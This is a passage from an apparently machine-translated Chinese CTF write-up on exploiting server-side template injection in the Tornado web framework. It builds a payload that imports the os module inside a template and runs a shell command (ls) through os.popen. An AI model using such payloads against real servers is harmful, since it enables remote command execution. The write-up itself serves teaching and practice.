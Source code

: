 第三步:剥削。

有一篇关于如何利用 tornado 模板的很棒的文章。

[](https://ajinabraham.com/blog/server-side-template-injection-in-tornado) [## Tornado 中的服务器端模板注入

### 这篇文章解释了 Python tornado web 框架中的服务器端模板注入(SSTI)。龙卷风是一个伟大而简单的…

ajinabraham.com](https://ajinabraham.com/blog/server-side-template-injection-in-tornado) 

原来我们可以导入该模块来执行操作系统命令。

`{% import *module* %}` -允许你导入 python 模块。

示例:

`{% import os%}`

我们现在可以制造我们的有效载荷。

```
{% import os %}{{ os.popen("ls").read() }}
```

`ls`命令列出目录中的内容

![](img/42bea8050b43ba6f03873b68e798155b.png)

有效载荷

![](img/1d244f1d3125796d0b242086e79a7430.png)
